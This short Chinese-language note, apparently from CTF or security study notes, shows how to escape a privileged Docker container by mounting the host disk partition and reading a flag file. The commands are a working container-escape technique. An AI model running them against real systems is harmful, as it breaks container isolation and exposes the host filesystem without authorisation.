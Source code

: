 使用特权容器可以认为等同于host环境。

# 创建特权容器
```
docker run -it --privileged ubuntu
```

# 挂载目录

```
mkdir /escape
fdisk -l
mount /dev/sda5 /escape
cd /escape
cat flag
```